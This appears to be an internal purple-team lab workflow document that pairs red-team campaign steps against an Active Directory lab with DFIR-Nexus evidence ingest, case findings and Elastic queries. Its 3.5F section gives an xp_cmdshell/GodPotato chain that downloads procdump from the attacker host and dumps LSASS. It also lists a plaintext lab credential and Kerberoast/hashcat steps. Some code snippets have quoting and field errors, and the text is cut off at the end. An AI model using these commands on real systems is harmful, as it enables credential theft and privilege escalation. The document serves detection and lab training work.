

# DFIR-Nexus Pioneer Workflow — Campaign ↔ Investigation Bridge

> **Purpose:** Run attack exercises (`CAMPAIGNS.md`) and DFIR investigations (`tools/dfir-nexus/`) in parallel. Each row links live lab telemetry to a DFIR-Nexus case, `tracker.md` PRIMARY source, and (later) Sigma rules.
>
> **Attack narrative:** [`CAMPAIGNS.md`](CAMPAIGNS.md) · **Playbook refs:** [`CAMPAIGNS-METADATA.md`](CAMPAIGNS-METADATA.md) · **Research backlog:** [`Campaign_suggestions.md`](Campaign_suggestions.md)
>
> **DFIR tool:** [`tools/dfir-nexus/`](../../tools/dfir-nexus/) (v1.0.0 E.0 Constellation) · **Release docs:** [`E0-CONSTELLATION.md`](../../tools/dfir-nexus/docs/E0-CONSTELLATION.md) · [`D0-STELLAR.md`](../../tools/dfir-nexus/docs/D0-STELLAR.md) · [`C0-VOYAGER.md`](../../tools/dfir-nexus/docs/C0-VOYAGER.md) · **Roadmap:** [`dfir-nexus-source-assessment-3-roadmap.md`](../../docs/internal/integrations/dfir-nexus-source-assessment-3-roadmap.md)
>
> **Telemetry log:** `docs/internal/plan01-telemetry-catalog/phase1-source-matrix/tracker.md` (internal)

**Status:** Active — Phase 3.5 in progress. **DFIR-Nexus A.0 → E.0 COMPLETE (v1.0.0, 2026-06-22)** — 96 MCP tools, 496 pytest, 72 smoke. Assessment roadmap closed; **next:** CADRE Ansible wiring on `provisioning` + live SSH connectors. See [`SUMMARY.md`](../../tools/dfir-nexus/docs/SUMMARY.md).

---

## DFIR-Nexus services (optional alongside Pioneer loop)

| Service | Command | Port | Use with Pioneer |
|:--------|:--------|:-----|:-----------------|
| MCP server | `dfir-nexus serve` | stdio | Manual/agentic ingest + cases (96 tools) |
| MCP HTTP | `dfir-nexus serve --http --port 4624` | 4624 | Standalone MCP for one LLM client |
| HTTP gateway | `dfir-nexus gateway --token SECRET` | 4623 | Aggregate MCP backends for agents (rate 120/min) |
| Examiner Portal | `DFIR_NEXUS_PORTAL_PASSWORD=x dfir-nexus portal` | 4625 | Review DRAFT findings from 3.5 exercises |
| Push ingest | `python -m dfir_nexus.push.server` (or `uvicorn dfir_nexus.push.server:create_push_app`) | 4626 | Per-case bearer push from Kali/scripts (`case_push_token` MCP) |
| Velociraptor MCP | `python -m dfir_nexus.integration.velociraptor_mcp_server` | stdio | Endpoint collection on mbr01 / `.51` |
| Plaso super-timeline | `psort.py -o dynamic -w timeline.csv ...` then ingest | file | Correlate host-wide events |
| SigmaHQ rules | `detection_sigma_install` | MCP | Download 3,200+ Sigma rules for gap analysis |
| TI enrichment | `ti_lookup` / `ti_fanout` | MCP | abuse.ch + MISP on IoCs from findings (D.0.1) |
| VR hunts | `vr_run_hunt` / `vql_query` | MCP | Velociraptor collection post-attack (D.0.2) |
| MITRE / RBA | `mitre_rba_score` / `mitre_match_actors` | MCP | Alert scoring + actor overlay (D.0.3) |
| Notifications | `DFIR_NEXUS_NOTIFY_*` env vars → Slack/Teams/email/webhook | — | Auto-fire on case create / finding approve (no MCP tool) |
| Case export | `case_export` | MCP | 12 formats: JSON/Markdown/HTML/STIX/CSV/CSV-timeline/IoC-blocklist/snapshot/SVG-timeline/SVG-graph/ZIP/DOCX (E.0.4) |

**Production hardening (lab → shared bind):** set `DFIR_NEXUS_AUDIT_SECRET`, `DFIR_NEXUS_DATA_ROOTS`, `DFIR_NEXUS_PORTAL_PASSWORD`, gateway `bearer_token` on non-loopback. See [`E0-CONSTELLATION.md`](../../tools/dfir-nexus/docs/E0-CONSTELLATION.md).

After each 3.5 branch: open Portal → **Overview** review queue → approve/reject in-browser (case approval password) or via MCP `case_approve`.

### Recommended service stack for a 3.5 exercise

```bash
# Terminal 1 — gateway aggregates DFIR-Nexus + Velociraptor MCP
dfir-nexus gateway --port 4623 --token CADRE-2026

# Terminal 2 — Examiner Portal for HITL review
export DFIR_NEXUS_PORTAL_PASSWORD=examiner-secret
dfir-nexus portal --port 4625

# Terminal 3 (optional) — push ingest for scripted exports from Kali
# No CLI subcommand yet — run the push app directly:
python -c "import uvicorn; from dfir_nexus.push import create_push_app; \
           uvicorn.run(create_push_app(), host='127.0.0.1', port=4626)"
# Generate per-case token via MCP case_push_token, then POST bundle JSON

# Terminal 4 — run campaign from Kali, export telemetry, then use MCP client
# or curl gateway endpoints directly.
```

---

## 10-minute first case (one-shot onboarding)

Run this once after install. Confirms the loop works end-to-end before your first real exercise.

```bash
# 0 — Move into the project (or wherever your DFIR-Nexus install lives)
cd tools/dfir-nexus

# 1 — Create a synthetic evidence bundle (no real attack needed for the smoke run)
mkdir -p ~/cadre-evidence/0-SMOKE-$(date +%Y%m%d)
cat > ~/cadre-evidence/0-SMOKE-$(date +%Y%m%d)/notes.txt <<EOF
UTC start: $(date -u +%Y-%m-%dT%H:%M:%SZ)
UTC end:   $(date -u +%Y-%m-%dT%H:%M:%SZ)
Attack:    none (smoke test)
Notes:     DFIR-Nexus loop verification
EOF
# Minimal Suricata-shaped JSON (1 alert)
cat > ~/cadre-evidence/0-SMOKE-$(date +%Y%m%d)/suricata-eve.json <<EOF
{"timestamp":"$(date -u +%Y-%m-%dT%H:%M:%SZ)","event_type":"alert","src_ip":"192.168.77.60","dest_ip":"192.168.77.20","alert":{"signature":"ET SCAN Suspicious inbound to mssql","category":"Attempted Information Leak","severity":2},"host":"mbr01","proto":"tcp"}
EOF

# 2 — Ingest
python -c "
from pathlib import Path
from dfir_nexus.ingest import get_registry
reg = get_registry()
r = reg.import_path(Path.home() / 'cadre-evidence' / '0-SMOKE-$(date +%Y%m%d)' / 'suricata-eve.json')
print(f'source={r.source.value} artifacts={len(r.artifacts)} errors={r.errors}')
"

# 3 — Create case + DRAFT finding (no approval password = auto-approve on record)
python -c "
from dfir_nexus.case import CaseManager, FindingSeverity
mgr = CaseManager("./data/cases.db")
case = mgr.create_case(
    name='SMOKE — DFIR-Nexus loop verification',
    description='First case to confirm the loop works.',
    priority='medium',
)
finding = mgr.add_finding(
    case_id=case.id,
    title='Smoke test alert',
    technique_id='T1046',  # Network Service Scanning
    severity=FindingSeverity.LOW,
    host='mbr01',
    user='unknown',
    description='Synthetic Suricata alert for loop verification.',
)
print(f'case_id={case.id} finding_id={finding.id}')

# 4 — Verify audit chain
ok, errors = mgr.verify_audit_chain(case.id)
print(f'audit valid: {ok}  errors: {errors}')
"

# 5 — Open Portal (if running) at http://127.0.0.1:4625 → case should appear
# 6 — Export to Markdown for the smoke record
python -c "
from dfir_nexus.integration.case_export import CaseExporter
import sys
case_id = sys.argv[1]
CaseExporter(case_id=case_id).export_to_markdown(f'/tmp/{case_id}.md')
print(f'exported /tmp/{case_id}.md')
" "$(<last_case_id_here>)"
```

If steps 2–6 all print expected output, the loop is wired and you can skip ahead to [§"The Pioneer loop"](#the-pioneer-loop) for real exercises.

---

## The Pioneer loop

One closed loop per exercise. Manual workflow first; agentic (`case_run_agents`) after exports are proven.



| Step | Owner | Output |
|:-----|:------|:-------|
| 1. Attack | Red / campaign | Technique executed on lab VM |
| 2. Export | Analyst | JSON/NDJSON files + UTC time window noted |
| 3. Ingest | DFIR-Nexus | Normalized artifacts in case store |
| 4. Correlate | DFIR-Nexus | Shared host/user/MITRE groups |
| 4b. Enrich (optional) | DFIR-Nexus | TI fanout, VR hunt, RBA score, actor match |
| 5. Case | DFIR-Nexus | DRAFT findings → human approve → HMAC audit chain |
| 6. Agentic (optional) | DFIR-Nexus | `case_run_agents` — six LangGraph agents (TI + VR + RBA wired) |
| 7. Export (optional) | DFIR-Nexus | `case_export` — STIX/HTML/ZIP for reporting |
| 8. Track | Plan 1 | `tracker.md` PRIMARY + DFIR case ID + export paths |

---

## Lab endpoints (export sources)

| Source | Host | Path / UI | DFIR-Nexus `source_name` |
|:-------|:-----|:----------|:-------------------------|
| Elastic / Kibana | `192.168.77.50` | `:5601` Discover → Share → CSV/JSON, or Dev Tools `_search` | `elastic` (`ArtifactSource.ELASTIC`) |
| WinSec / Sysmon / Endpoint | via Fleet on mbr01 | `logs-winlog.security-*`, `logs-endpoint.events.*` | `elastic` |
| Suricata | `192.168.77.55` (monitor) | `/var/log/suricata/eve.json` | `suricata` |
| Zeek | monitor | `/opt/zeek/logs/current/*.log` | `zeek` |
| Hayabusa (optional) | Kali / provisioning | CSV timeline after EVTX pull | `hayabusa` |
| Plaso (optional) | Kali / provisioning | `psort.py` CSV export for host super-timeline | `plaso` |
| Velociraptor (optional) | mbr01 / mbr02 | VQL artifact collection → JSON/CSV | `velociraptor` |

**Attack VM (Phase 3 spine):** `mbr01` `192.168.77.22` · **Kali:** `192.168.77.60` · **Root DC:** `dc01` `192.168.77.10`

---

## DFIR-Nexus setup (provisioning / Kali)

```bash
cd /path/to/CADRE/tools/dfir-nexus
pip install -e ".[dev,detection,rag]"          # core + Sigma + RAG
pip install python-evtx                        # raw EVTX binary parsing
pip install prefetch-parser                    # Windows Prefetch parsing

# Production knowledge bases (mirror under your org's GitHub releases)
export DFIR_NEXUS_RAG_RELEASE_REPO=your-org/dfir-nexus
export DFIR_NEXUS_TRIAGE_RELEASE_REPO=your-org/dfir-nexus
dfir-nexus data download-rag --dest ./data/rag
dfir-nexus data download-triage --dest ./data/triage

# Optional: constrain ingest paths + audit secret for shared lab hosts
export DFIR_NEXUS_DATA_ROOTS="$HOME/cadre-evidence:/tmp/dfir-ingest"
export DFIR_NEXUS_AUDIT_SECRET=change-me-in-production

# Verify toolchain (496 pytest, 72 smoke steps)
python -m pytest tests/ -q
python smoke_test.py

# MCP server for IDE agents
dfir-nexus serve
```

Optional: Eric Zimmerman tools for `ez_tool_run` — set `DFIR_NEXUS_EZ_TOOLS_DIR` to the directory containing EvtxECmd/MFTECmd/PECmd. **Note:** `ez_tool_run` needs an allowlist before internet-facing use (see [`dfir-nexus-codebase-review.md`](../../docs/internal/integrations/dfir-nexus-codebase-review.md) §6).

See [`DATA.md`](../../tools/dfir-nexus/docs/DATA.md), [`STUDY-GUIDE.md`](../../tools/dfir-nexus/docs/STUDY-GUIDE.md), and [`E0-CONSTELLATION.md`](../../tools/dfir-nexus/docs/E0-CONSTELLATION.md).
Evidence bundle directory (convention for this workflow):

```text
~/cadre-evidence/<phase>-<branch>-<YYYYMMDD>/
  elastic-mbr01-<window>.json
  suricata-eve-<window>.json   # optional
  notes.txt                    # UTC start/end, attack command hash
```

---

## Manual workflow (per exercise)

```python
from pathlib import Path
from dfir_nexus.ingest import get_registry, ArtifactSource
from dfir_nexus.case import CaseManager, ApprovalState, FindingSeverity
from dfir_nexus.analysis import CorrelationEngine
from dfir_nexus.polish import generate_sigma_for_techniques
from dfir_nexus.mitre.navigator import build_observed_layer

bundle = Path.home() / "cadre-evidence" / "3.5F-20260605"
reg = get_registry()

# 1 — Ingest (auto-detect by default; force a specific source when ambiguous)
for path, src in [
    (bundle / "elastic-mbr01.json", None),                  # auto-detect
    (bundle / "suricata-eve.json", None),
    (bundle / "velociraptor-mbr01.json", ArtifactSource.VELOCIRAPTOR),
    (bundle / "plaso-timeline.csv", ArtifactSource.PLASO),
]:
    if path.exists():
        result = reg.import_path(path, source=src)
        print(f"{path.name}: {result.source.value} -> {len(result.artifacts)} artifacts (errors={len(result.errors)})")

# 2 — Agentic pipeline (manual first; use case_run_agents once proven)
# artifacts = ...  # from ingest store / ingest_search MCP tool
# result = DFIRAgentGraph(case_manager=mgr).run(
#     case_id=case.id, artifacts=artifacts, case_name=case.name
# )
# print(result.pending_human_approval, result.draft_finding_ids)

# 3 — Correlate (10-minute window around attack)
# artifacts = ...  # from ingest store / ingest_search MCP tool
# CorrelationEngine(time_window_seconds=600).correlate(artifacts)

# 4 — Case + DRAFT finding
mgr = CaseManager("./data/cases.db")
case = mgr.create_case(
    name="CADRE-3.5F — LSASS dump on mbr01",
    description="Branch 3.5F after GodPotato SYSTEM; procdump on lsass.exe",
    severity=FindingSeverity.HIGH,
)
finding = mgr.add_finding(
    case_id=case.id,
    title="LSASS credential dump (T1003.001)",
    technique_id="T1003.001",
    severity=FindingSeverity.CRITICAL,
    host="mbr01.cadre.local",
    user="SYSTEM",
    description="procdump -ma lsass.exe; expect Sysmon 10 / Endpoint process access",
    iocs=[{"type": "process", "value": "procdump.exe"}, {"type": "file", "value": "C:\\Users\\Public\\ls.dmp"}],
    initial_state=ApprovalState.DRAFT,
)

# 5 — Sigma stub + Navigator layer (Plan 1 seed)
rules = generate_sigma_for_techniques(["T1003.001"])
# D.0.3: full Navigator v4.5 layer + RBA scoring
layer = build_observed_layer(["T1003.001"], name="CADRE-3.5F coverage")

# 6 — Approve after analyst review (set case password once, then approve)
# mgr.set_case_approval_password(case.id, password="...")
# mgr.approve_finding(finding_id=finding.id, password="...", approved_by="examiner")
```

**Agentic pass (optional):** MCP tool `case_run_agents` with same ingested artifacts → six LangGraph agents (`Timeline`, `Endpoint`, `Network`, `Alert`, `Cloud`, `Synthesis`) → NetworkAgent uses `ti_lookup`, EndpointAgent uses `vr_run_hunt`, AlertAgent uses `mitre_rba_score` + `mitre_match_actors` → `interrupt()` returns `pending_human_approval=True` with DRAFT findings. Approve via Portal or `case_approve`. Use after manual path works once.

**Push path (optional):** Export JSON from Kali → `POST` to the push server with per-case bearer from `case_push_token` MCP → same ingest pipeline without manual file IO. Start the server with `python -m dfir_nexus.push.server` (no CLI subcommand yet — wrap in your own systemd unit / tmux pane).
Example call via gateway (for `case_run_agents`):

```bash
curl -H "Authorization: Bearer CADRE-2026" \
     -H "Content-Type: application/json" \
     -d '{"name":"dfir-nexus__case_run_agents","arguments":{"case_id":"CASE-...","artifacts":[...],"headless":false}}' \
     http://127.0.0.1:4623/v1/tools/call
```

**Triage during ingest (optional):** Drop a suspicious file path into `triage_check_file` to confirm it's NOT in the known-good baseline before opening a finding. Cheap pre-check.

---

## Tracker columns (add to each `tracker.md` row)

| Column | Example |
|:-------|:--------|
| `campaign_ref` | `3.5F` |
| `wt_id` | — (spine) or `WT082` |
| `attack_utc` | `2026-06-05T14:22:00Z` |
| `host` | `mbr01` |
| `user` | `SYSTEM` / `analyst_cloud` |
| `primary_source` | `Endpoint.process` / `WinSec` / `Suricata` |
| `corroboration` | `Sysmon`, `Zeek.kerberos`, … |
| `dfir_case_id` | `case-abc123` |
| `evidence_bundle` | `~/cadre-evidence/3.5F-20260605/` |
| `sigma_template` | `T1003.001` (DFIR-Nexus built-in) |
| `status` | `⏳` / `✅` / `❌` |

---

## Campaign spine — DFIR mapping (Phases 0–3)

Verified live from Kali; run Pioneer loop when re-testing or filling tracker gaps.

| Phase | Campaign ref | MITRE | Primary telemetry | DFIR-Nexus Sigma | Notes |
|:------|:-------------|:------|:------------------|:-----------------|:------|
| 0 | Recon Kerberos enum | T1087.002 | Zeek `kerberos.log` | — | Network-only; Suricata ET Kerberos |
| 1 | WT003 AS-REP | T1558.004 | WinSec 4768, Zeek, Suricata | — | `intern_blue` cred |
| 2 | WT002 Kerberoast ACE#18 | T1558.003 | WinSec 4769, Zeek | — | `svc_mssql` + `analyst_t1` |
| 3 | WT043 SQL → xp_cmdshell | T1505.001, T1059.001 | WinSec, Sysmon 1, Endpoint | `T1059.001` | GodPotato → SYSTEM |
| 3 alt | LOLBAS / UACME ⏳ | varies | Endpoint.process | per technique | See CAMPAIGNS Phase 3 alt |

**Export tip (Phases 1–3):** Filter Elastic on `host.name: mbr01` or `winlog.computer_name`, and `user.name` / `event.code` for Kerberos/SQL events. Include ±5 min around attack UTC.

### Per-phase DFIR-Nexus commands (Phases 0–3)

For each phase, the canonical evidence bundle + DFIR-Nexus command sequence. Skip steps that don't apply (e.g., no Sysmon on a Linux target).

#### Phase 0 — Reconnaissance (Kerberos user enum from Kali)

**Bundle:** `~/cadre-evidence/0-recon-YYYYMMDD/`
- `zeek-kerberos.json` (from monitor `.55`, `/opt/zeek/logs/current/kerberos.log` → JSON conversion via `zeek-cut` + `jq`)
- `suricata-eve.json` (from monitor `.55`)

```bash
# Ingest
python -c "
from pathlib import Path
from dfir_nexus.ingest import get_registry
reg = get_registry()
for p in [Path.home() / 'cadre-evidence' / '0-recon-$(date +%Y%m%d)' / 'zeek-kerberos.json',
          Path.home() / 'cadre-evidence' / '0-recon-$(date +%Y%m%d)' / 'suricata-eve.json']:
    if p.exists():
        r = reg.import_path(p); print(f'{p.name}: {r.source.value} {len(r.artifacts)}')
"

# Create case + record Kerberos enum finding
python -c "
from dfir_nexus.case import CaseManager, FindingSeverity
mgr = CaseManager("./data/cases.db")
case = mgr.create_case(name='P0 — Kerberos user enum from Kali', priority='medium')
mgr.add_finding(
    case_id=case.id, title='Kerberos user enumeration (no pre-auth)',
    technique_id='T1087.002', severity=FindingSeverity.LOW,
    host='kali01', user='kali',
    description='Pre-auth-disabled users enumerated; correlate with krb5 response codes.',
)
"
# TI fanout on discovered usernames (when applicable)
# mcp: ti_lookup(value="intern_blue@cadre.local", providers=["threatfox"])
```

#### Phase 1 — AS-REP roast (WT003)

**Bundle:** `~/cadre-evidence/1-WT003-YYYYMMDD/`
- `elastic-mbr01.json` — filter `event.code:4768 AND user.name:intern_blue AND winlog.failure.reason:"0x18"`
- `zeek-kerberos.json` (cross-check)
- `suricata-eve.json` (cross-check)

```bash
# Kibana Dev Tools _search for 4768 with pre-auth disabled
# Then:
python -c "
from dfir_nexus.case import CaseManager, FindingSeverity
mgr = CaseManager("./data/cases.db")
case = mgr.create_case(name='P1 — WT003 AS-REP roast intern_blue', priority='high')
finding = mgr.add_finding(
    case_id=case.id,
    title='AS-REP roast against intern_blue',
    technique_id='T1558.004',  # AS-REP Roasting
    severity=FindingSeverity.HIGH,
    host='mbr01', user='intern_blue',
    iocs=[{'type': 'hash', 'value': '<$krb5asrep$...hash...>'}],
    description='Cracked offline via hashcat -m 18200',
)
# TI fanout on the cracked account
import asyncio
from dfir_nexus.ti import get_router
r = get_router()
print(asyncio.run(r.fanout(value='intern_blue@cadre.local')))
"
```

#### Phase 2 — Kerberoast via ACE#18 (WT002)

**Bundle:** `~/cadre-evidence/2-WT002-YYYYMMDD/`
- `elastic-mbr01.json` — `event.code:4679 AND user.name:svc_mssql` (or `:analyst_t1`)
- `zeek-kerberos.json`
- `hashcat-output.txt` (the cracked TGS-REP hash)

```bash
# Steps:
# 1. As intern_blue → ForceChangePassword analyst_t2 (ACE#18)
# 2. getTGT.py → Kerberoast svc_mssql / analyst_t1
# 3. hashcat -m 13100 (AES) or 19700 (AES256)
# Then:
python -c "
from dfir_nexus.case import CaseManager, FindingSeverity
mgr = CaseManager("./data/cases.db")
case = mgr.create_case(name='P2 — WT002 Kerberoast svc_mssql+analyst_t1', priority='high')
mgr.add_finding(
    case_id=case.id,
    title='Kerberoast TGS-REP extraction (svc_mssql)',
    technique_id='T1558.003', severity=FindingSeverity.HIGH,
    host='dc01', user='intern_blue',
    iocs=[{'type': 'spn', 'value': 'svc_mssql/mbr01.cadre.local:1433'}],
    description='Brute-forced AES service ticket offline; password cracked in <1h',
)
mgr.add_finding(
    case_id=case.id,
    title='Kerberoast TGS-REP extraction (analyst_t1)',
    technique_id='T1558.003', severity=FindingSeverity.HIGH,
    host='dc01', user='intern_blue',
    description='Second SPN via same ACE#18 chain',
)
# Build Navigator layer with both SPNs visible
from dfir_nexus.mitre.navigator import build_observed_layer
layer = build_observed_layer(['T1558.003', 'T1098'], name='P2 Kerberoast')
"
```

#### Phase 3 — SQL → xp_cmdshell → SYSTEM (WT043)

**Bundle:** `~/cadre-evidence/3-WT043-YYYYMMDD/`
- `elastic-mbr01-endpoint.json` — `event.category:process AND host.name:mbr01` ± 5 min
- `elastic-mbr01-winsec.json` — `event.code:[4624,4672,7045,4688]`
- `elastic-mbr01-sysmon.json` — `event.code:1 AND process.parent.name:sqlservr.exe` (GodPotato spawn)

```bash
python -c "
from dfir_nexus.case import CaseManager, FindingSeverity
mgr = CaseManager("./data/cases.db")
case = mgr.create_case(
    name='P3 — WT043 SQL auth → xp_cmdshell → GodPotato SYSTEM',
    priority='critical',
    description='Full kill chain: SQL auth as analyst_t1 → impersonate sa → xp_cmdshell → GodPotato → nt authority\\system',
)
# Step 1: SQL auth
mgr.add_finding(
    case_id=case.id, title='SQL mixed-mode auth as analyst_t1',
    technique_id='T1078.001', severity=FindingSeverity.HIGH,
    host='mbr01', user='analyst_t1',
    iocs=[{'type': 'login', 'value': 'analyst_t1'}],
)
# Step 2: xp_cmdshell
mgr.add_finding(
    case_id=case.id, title='xp_cmdshell enabled and used (T1505.001)',
    technique_id='T1505.001', severity=FindingSeverity.CRITICAL,
    host='mbr01', user='analyst_t1',
    description='EXEC xp_cmdshell with IMPERSONATE sa',
)
# Step 3: GodPotato
mgr.add_finding(
    case_id=case.id, title='GodPotato privilege escalation to SYSTEM',
    technique_id='T1068', severity=FindingSeverity.CRITICAL,
    host='mbr01', user='SYSTEM',
    iocs=[{'type': 'binary', 'value': 'C:\\Users\\Public\\GodPotato.exe'}],
)
# Run the Sigma rule stub for review
from dfir_nexus.polish import generate_sigma_for_techniques
print(generate_sigma_for_techniques(['T1078.001', 'T1505.001', 'T1068']))
"
```

#### Phase 3 alt — LOLBAS / UACME (when added)

Per-technique Sigma templates exist for all 12 KB-shipped Sigma templates (`T1003.001`, `T1059.001`, `T1053.005`, `T1547.001`, `T1546.013`, `T1070.001`, `T1021.001`, `T1021.002`, `T1136.001`, `T1110`, `T1543.003`). Use `generate_sigma_for_techniques([...])` to extract; or run `sigma_translate` on a SigmaHQ rule for the platform-specific query.

### Phases 0–3 export decision

After completing the spine:

- **Daily standup:** export the case to Markdown (`case_export` format=`markdown`) → paste into the standup doc
- **Mid-phase review:** IoC blocklist (`format=csv`) → ingest into Elastic for cross-source correlation
- **End-of-phase audit:** STIX 2.0 bundle (`format=stix`) → upload to MISP / OpenCTI for threat intel sharing
- **Purple-team report:** DOCX (`format=docx`) → exec-friendly narrative with timeline + audit verification

---

## Phase 3.5 — Credential theft from SYSTEM (active)

**Context:** SYSTEM on `mbr01` via Phase 3. Target: `CADRE\analyst_cloud` (`Cl0ud_An@lyst!`) in **cadre.local** (root domain — not in child-domain BloodHound). Auto-logon ON; LSASS PPL OFF (`04-vulnerabilities.yml`).

**Goal:** Domain creds for SharpHound / Phase 4 BloodHound as `analyst_cloud`.

**Campaign detail:** [`CAMPAIGNS.md` § Branch 3.5](CAMPAIGNS.md#branch-35--credential-theft-from-system)

**Recommended execution order:** `3.5F` → `3.5A` → `3.5G` → `3.5H` → `3.5B` → `3.5C` → `3.5D` → `3.5E` → optional `3.5J`–`3.5M`

### 3.5 branch ↔ DFIR-Nexus matrix

| Branch | Technique | MITRE | Status | Expected PRIMARY | Corroboration | Ingest focus | Sigma template | DFIR command (skeleton) |
|:-------|:----------|:------|:-------|:-----------------|:--------------|:-------------|:---------------|:-------------------------|
| **3.5F** | LSASS dump (procdump) | T1003.001 | ⏳ | Endpoint `process` / Sysmon 10 | WinSec 4656, file create `.dmp` | Elastic Endpoint + Sysmon | `T1003.001` | `add_finding(technique_id="T1003.001", iocs=[{"type":"process","value":"procdump.exe"}])` |
| **3.5A** | Winlogon registry | T1552.002 | ⏳ | Sysmon 12/13 registry | WinSec 4624 on cred use | Elastic registry events | — (misconfig; custom cadre-*) | `add_finding(technique_id="T1552.002", description="Plaintext DefaultPassword in Winlogon")` |
| **3.5G** | Nemesis DPAPI | T1555 | ⏳ | Endpoint file + process | Masterkey file access | Elastic file/process | — | `triage_check_hash(sha256)` + `add_finding(technique_id="T1555")` |
| **3.5H** | ctfmon memory | T1003 | ⏳ | Sysmon 10 on `ctfmon.exe` | procdump file | Elastic | `T1003.001` (variant) | Same as 3.5F; flag `iocs[].value="ctfmon.exe"` |
| **3.5B** | schtasks as user | T1053.005 | ⏳ | WinSec 4698/4699 | 4624 `analyst_cloud`, Sysmon 1 | WinSec + Endpoint | `T1053.005` | `add_finding(technique_id="T1053.005", host="mbr01", user="analyst_cloud")` |
| **3.5B†** | Invisible task (SD delete) | T1053.005 | ⏳ | Sysmon 12/13 TaskCache | Task still runs | Registry events | `T1053.005` + custom | `add_finding(description="Task with deleted SD still executing")` |
| **3.5C** | RDP Type 10 | T1021.001 | ⏳ | WinSec 4624 Type 10 | Sysmon 3 `:3389`, Zeek | WinSec + conn | `T1021.001` | `add_finding(technique_id="T1021.001", user="analyst_cloud")` |
| **3.5D** | File detonation H | WT063–068 | ⏳ | Endpoint process/file | Zeek http if pull from Kali | Multi-source | per WT | One finding per WT; technique_ids vary |
| **3.5E** | Startup folder | T1547.001 | ⏳ | Sysmon 11 + logon 4624 | 4624 Type 2/11 | Endpoint file | `T1547.001` | `add_finding(technique_id="T1547.001", iocs=[{"type":"file","value":"...\\Start Menu\\Startup\\..."}])` |
| **3.5I** | Token impersonation | T1134 | ❌ | — | Error 1346 | Negative test — log in tracker | — | `add_finding(severity="info", title="Token impersonation blocked — Server 2025 session isolation")` |
| **3.5J** | WMI subscription | T1546.003 | ⏳ | Sysmon 19/20/21 | — | WinSec/Sysmon | `T1546.013` | `add_finding(technique_id="T1546.003")`; mark persistence for Phase 5 |
| **3.5K** | WerFault LSASS | T1003.001 | ⏳ | Sysmon 1 WerFault | Compare vs 3.5F | Endpoint | `T1003.001` | `add_finding(description="LSASS dump via WerFault.exe — bypass path")` |
| **3.5L** | LAPS read | T1552.004 | ⏳ | WinSec 4662 LDAP | — | WinSec | — | `add_finding(technique_id="T1552.004", user="analyst_cloud")` |
| **3.5M** | AAD Connect DPAPI | T1555 | ⏳ | dc01 Endpoint | Cloud sign-in (later) | dc01 export | — | Defer until Phase 7 + Entra hybrid setup |
| **3.5N** | UnCanny LPE | T1068 | 🔬 | deferred | See Campaign_suggestions Track G | — | — | Track G — gate on Developer Mode |

### 3.5F — LSASS dump (PRIMARY attack path)

**Attack (from SQL as `analyst_t1` on mbr01):**

```sql
EXEC xp_cmdshell 'C:\Users\Public\GodPotato.exe -cmd "cmd /c certutil -urlcache -split -f http://192.168.77.60:8080/procdump.exe C:\Users\Public\procdump.exe"';
EXEC xp_cmdshell 'C:\Users\Public\GodPotato.exe -cmd "cmd /c C:\Users\Public\procdump.exe -accepteula -ma lsass.exe C:\Users\Public\ls.dmp"';
-- Fallback: schtasks /ru SYSTEM (see CAMPAIGNS.md)
```

**DFIR finding (draft):**

| Field | Value |
|:------|:------|
| Title | LSASS memory dump via procdump |
| `technique_id` | `T1003.001` |
| Host | `mbr01.cadre.local` |
| IoCs | `procdump.exe`, path `C:\Users\Public\ls.dmp`, target `lsass.exe` |
| VQL hunt | `analyze_generate_hunt("T1003.001")` |

**Elastic export (Kibana Dev Tools example):**

```json
GET logs-endpoint.events.process-*/_search
{
  "size": 500,
  "query": {
    "bool": {
      "filter": [
        { "range": { "@timestamp": { "gte": "now-15m", "lte": "now" } } },
        { "term": { "host.name": "mbr01" } },
        { "bool": { "should": [
          { "wildcard": { "process.name": "*procdump*" } },
          { "term": { "process.Ext.target.process.name": "lsass.exe" } }
        ]}}
      ]
    }
  }
}
```

Save `_source` hits as `elastic-mbr01.json` in the evidence bundle.

---

### 3.5A — Winlogon registry (BACKUP)

**Attack:** `reg query HKLM\...\Winlogon` for `DefaultUserName` / `DefaultPassword` via GodPotato.

**DFIR finding:**

| Field | Value |
|:------|:------|
| `technique_id` | `T1552.002` |
| Severity | high (misconfiguration) |
| IoCs | Registry path `...\Winlogon`, values `analyst_cloud`, plaintext password |

**Note:** Classify as **misconfiguration discovery**, not malware. Valuable for purple-team reporting.

---

### 3.5B / 3.5C — Post-credential (after 3.5F or 3.5A)

Once password known (`CADRE\analyst_cloud:Cl0ud_An@lyst!`):

- **3.5B:** `schtasks /create /ru CADRE\analyst_cloud /rp ...` → findings `T1053.005`
- **3.5C:** `xfreerdp /v:192.168.77.22 /u:analyst_cloud ...` → findings `T1021.001`, logon type 10

These validate **credential use**, not theft — run after a successful 3.5F or 3.5A.

---

### 3.5I — Negative path (documented failure)

Token impersonation from session 0 → session 1 failed (error 1346). Still run Pioneer loop:

- Record **negative result** in tracker (`status: ❌`)
- DFIR case optional: finding "Attempted token theft — no logon session" with technique `T1134`
- Confirms Server 2025 session isolation; prefer 3.5F over token path

### Negative test handling (3.5I and similar)

Some branches **should** fail — the campaign explicitly tests what the lab *doesn't* allow. Treat these as first-class findings:

```python
# Negative test: record WHY it failed (not just that it did)
finding = mgr.add_finding(
    case_id=case.id,
    title="Token impersonation blocked — Server 2025 session isolation",
    technique_ids=["T1134"],  # Access Token Manipulation (attempted)
    severity=FindingSeverity.INFO,  # not a real compromise
    description=(
        "Attempted DuplicateTokenEx from session 0 → session 1 against analyst_cloud. "
        "Returned error 1346 ('No impersonation possible'). "
        "Confirms Server 2025 session isolation enforces per-session token boundaries; "
        "lab defenders should rely on this control rather than detect-only. "
        "See plan1.7 §3.5 defense deepening for detection engineering."
    ),
    metadata={
        "host": "mbr01",
        "user": "SYSTEM",
        "error_code": "0x540",       # ERROR_NO_IMPERSONATION
        "tag": "negative-test",       # tag via metadata (set_case_tag not exposed)
    },
)
```

**Why record negatives:**
1. Purple-team reports need to show what was tested and what worked
